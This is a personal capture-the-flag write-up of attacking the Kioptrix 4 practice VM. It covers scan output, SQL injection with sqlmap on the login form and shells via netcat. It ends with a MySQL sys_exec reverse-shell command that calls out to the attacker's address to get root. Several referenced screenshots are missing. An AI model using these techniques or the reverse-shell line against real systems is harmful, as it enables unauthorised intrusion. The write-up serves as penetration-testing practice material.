

Target IP: 10.0.0.27
Attacker IP: 10.0.0.22
Nmap scan report for 10.0.0.27
Host is up (0.0014s latency).
Not shown: 566 closed ports, 430 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey:
| 1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_ 2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp open http Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
MAC Address: 00:0C:29:9F:B4:CB (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: -1h59m58s, deviation: 2h49m42s, median: -3h59m58s
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
| OS: Unix (Samba 3.0.28a)
| Computer name: Kioptrix4
| NetBIOS computer name:
| Domain name: localdomain
| FQDN: Kioptrix4.localdomain
|_ System time: 2018-06-14T06:23:05-04:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
TRACEROUTE
HOP RTT ADDRESS
1 1.40 ms 10.0.0.27
enum4linux shows that these are the users:
index: 0x1 RID: 0x1f5 acb: 0x00000010 Account: nobody Name: nobody Desc: (null)
index: 0x2 RID: 0xbbc acb: 0x00000010 Account: robert Name: ,,, Desc: (null)
index: 0x3 RID: 0x3e8 acb: 0x00000010 Account: root Name: root Desc: (null)
index: 0x4 RID: 0xbba acb: 0x00000010 Account: john Name: ,,, Desc: (null)
index: 0x5 RID: 0xbb8 acb: 0x00000010 Account: loneferret Name: loneferret,,, Desc: (null)
user:[nobody] rid:[0x1f5]
user:[robert] rid:[0xbbc]
user:[root] rid:[0x3e8]
user:[john] rid:[0xbba]
user:[loneferret] rid:[0xbb8]
Results from dirb
---- Scanning URL: http://10.0.0.27/ ----
+ http://10.0.0.27/cgi-bin/ (CODE:403|SIZE:324)
==> DIRECTORY: http://10.0.0.27/images/
+ http://10.0.0.27/index (CODE:200|SIZE:1255)
+ http://10.0.0.27/index.php (CODE:200|SIZE:1255)
==> DIRECTORY: http://10.0.0.27/john/
+ http://10.0.0.27/logout (CODE:302|SIZE:0)
+ http://10.0.0.27/member (CODE:302|SIZE:220)
+ http://10.0.0.27/server-status (CODE:403|SIZE:329)
---- Entering directory: http://10.0.0.27/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.0.27/john/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
Nikto results
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 5.6.9). PHP 5.5.25 and 5.4.41 are also current.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found.
+ Server leaks inodes via ETags, header found with file /icons/README, inode: 98933, size: 5108, mtime: Tue Aug 28 06:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ Cookie PHPSESSID created without the httponly flag
+ 8327 requests: 0 error(s) and 20 item(s) reported on remote host
There doesn't seem to be anything interesting with the web server. I'm assuming that I have to rely on sql injection but I'm not sure yet. There is /john, which contains john.php. I also tried robert and that contained robert.php.
I found Samba exploit but https://www.rapid7.com/db/modules/exploit/linux/samba/setinfopolicy_heap but it didn't seem to work. I think I'll do more research into sql injection.
When submitting login data, I noticed that the post request submitted to checklogin.php. I set up sqlmap to find issues but it found nothing.
I manually put in something in login form and I got this

I also put in the same string I put in for sqlinjection in koptrix 1 or 2 and got this

I modified the username= to john and robert. this pops up

There requests are involved in logging in

I can do XSS

Using phpinfo didn't work. using sqlmap on member.php and username field didn't work either. However, I went back and used sqlmap with the login request. Since I now know that the mypassworld field is vulnerable, I can use sqlmap to see what I can get out. I used my query from burp, pasted it into a file and used that with sqlmap.


--dump-all was a dumb idea. It was taking too long. I killed it and did --dump instead.

Now I can login using that info.
Visiting /john/john.php and /robert/robert.php shows the same thing as logged in page.

I think there might be a file inclusion vuln.

This doesn't work if the username doesn't exist. Using php://filter/convert.base64-encode/resource= doesn't work either.
--os-shell in sqlmap gets us a shell lol

And I got a shell with netcat

mysql info


The system is Ubuntu 8.04.3 LTS with kernel 2.6.24.
I can't access crontab files.
I looked at the www directory and saw this but 1234 when SSH in as john didn't work.
:
I used the password that I got from doing dump and that did get me into john's account.

Both john and robert accounts are using kshell

Looking at history file from the netcat shell gives more information

I tried three exploits to get root privs but they didn't work. I had a look at a walkthrough for a hint. Hint is that mysql is running as root. I noticed that when i looked at the process list. I tried to get mysql to load shadow file but it didn't so I thought, it didn't have permissions.
Besides loading files with mysql, you can execute commands using sys_exec.

I used the following to get a reverse shell select sys_exec("netcat -e /bin/bash 10.0.0.22 8001"); and it was with root privs.
After looking at other walkthroughs I learned that this exploit would have worked https://www.exploit-db.com/exploits/9545/